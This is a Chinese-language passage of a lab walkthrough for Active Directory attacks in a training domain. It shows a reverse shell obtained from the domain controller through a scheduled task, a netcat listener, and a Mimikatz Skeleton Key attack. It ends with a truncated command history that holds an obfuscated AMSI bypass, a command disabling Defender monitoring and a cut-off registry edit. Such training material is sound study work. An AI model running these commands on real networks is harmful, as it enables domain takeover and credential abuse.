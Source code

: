 SUCCESS: The scheduled task "User366" has successfully been created.
```

触发定时任务
```
PS C:\ad> schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "User366"
SUCCESS: Attempted to run the scheduled task "User366".
```

收到反弹回来的DC上的shell
```
PS C:\ad> .\nc.exe -lnvp 443
listening on [any] 443 ...
connect to [172.16.100.66] from (UNKNOWN) [172.16.2.1] 49762
Windows PowerShell running as user DCORP-DC$ on DCORP-DC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>hostname
dcorp-dc
PS C:\Windows\system32> whoami
nt authority\system
```

问题：The service whose Silver Ticket can be used for scheduling tasks
答案：HOST

# Learning Objective 10:

> Task
> ● Use Domain Admin privileges obtained earlier to execute the Skeleton Key attack.

## 制作万能钥匙

### 方法1
在一台有DA权限的shell里运行下面命令
```
PS C:\ad> . .\Invoke-Mimikatz.ps1
PS C:\ad> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.loc
al

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # privilege::debug
Privilege '20' OK


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\